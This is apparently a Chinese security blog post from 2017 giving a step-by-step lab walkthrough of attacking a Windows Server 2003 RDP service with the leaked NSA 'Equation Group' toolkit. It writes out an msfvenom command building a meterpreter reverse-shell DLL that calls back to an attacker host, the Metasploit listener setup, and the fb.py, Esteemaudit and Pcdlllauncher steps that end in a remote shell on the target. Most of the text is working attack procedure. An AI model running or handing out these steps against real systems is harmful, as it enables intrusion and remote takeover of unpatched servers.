 ```yaml
---
title: NSA工具包验证之RDP漏洞利用
date: 2017-06-15 21:32:39
tags: 网络安全
---
```


### 验证环境：

攻击机1(本次演示IP：172.16.11.2)：windows系统，[安装python2.6.6](https://www.python.org/download/releases/2.6.6/), [pywin32-221.win32-py2.6.exe](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/), xshell, xftp, [下载方程式工具包](https://codeload.github.com/misterch0c/shadowbroker/zip/master)放到C盘，在工具包目录下的windows目录新建文件夹"listeningposts"，并且开放所有端口关闭防火墙，确保内网可以访问之

攻击机2(本次演示IP：172.16.12.2)：kali linux，需要开启ssh服务，详情百度

目标机1(本次演示IP：172.16.12.4)：开放了3389端口的Windows Server 2003

以上所有IP之间均可以直接访问
### 验证步骤：
<!--more-->
#### 第一步：生成可执行的恶意dll文件
0x01
首先通过xshell连接到kali linux，打开xshell，在跳出来的窗口点击new(新建)，然后填入kali的IP地址点击确定然后连接，接着依次输入kali的账号与密码即可连接，可能会跳出安全警告，点击接收并保存即可，连接完成得到如图：
![1.jpg](post162/1.jpg)
0x02
执行命令：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.12.2 LPORT=5555 -f dll >s.dll
```
在kali根目录下生成s.dll文件，其中LHOST为kali的IP地址，LPORT为一个可任意填写的端口，届时将使目标机执行该dll向172.16.12.2:5555发送shell
0x03
点击xshell如图位置
![3.jpg](post162/3.jpg)
打开本地C盘，并将kali目录下刚刚生成的s.dll复制到本机的C盘根目录下，如图
![4.jpg](post162/4.jpg)

#### 第二步：配置kali使得kali处于监听状态
0x01
依次输入命令
```
msfconsole
use exploit/multi/handler
set lhost 172.16.12.2
set lport 5555
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```
看到如图即说明配置成功
![2.jpg](post162/2.jpg)
这时就可以将xshell最小化，等后边再用

#### 第三步：使用方程式工具包进行攻击
0x01
将方程式工具包下的windows文件夹重命名为win，然后拷贝到C盘根目录下，并在该文件夹下新建一个名为"listeningposts"的文件夹，如图，不然运行会报错
![5.jpg](post162/5.jpg)
0x02
打开命令提示符，输入

```
C:\win\fb.py
```
然后依次输入目标IP，本地IP，是否重定向，日志存放位置，新建工程，给该工程命名，最后确认，如图
![1.jpg](post162/1-16273800337215.jpg)
最后敲击回车
0x03
显示出`fb >`之后输入命令

```
use Esteemaudit
```
使用该工具，之后除了下图所示位置需要修改，其他都保持默认直接敲击回车即可
（设置监听还是连接、系统位数、系统版本）
![2.jpg](post162/2-16273801063656.jpg)
（回拨IP以及端口，端口号可以任意设置）
![3.jpg](post162/3-16273801178697.jpg)
（配置DLL路径，需要改为实际路径）
![4.jpg](post162/4-16273801287108.jpg)
之后几个回车即可看到连接成功，如图
![5.jpg](post162/5-16273801405719.jpg)
0x04
接着输入命令

```
use Pcdlllauncher
```
使用Pcdlllauncher，除了下图其他保持默认即可
（改为自己的实际路径）
![6.jpg](post162/6.jpg)
（之前生成的s.dll路径）
![7.jpg](post162/7.jpg)
之后不断回车，会看到如图
![10.jpg](post162/10.jpg)
不用理他，打开xshell可以看到已经成功反弹shell，如下图
![8.jpg](post162/8.jpg)
然后就可以比如说输入shell模拟终端执行命令了
![9.jpg](post162/9.jpg)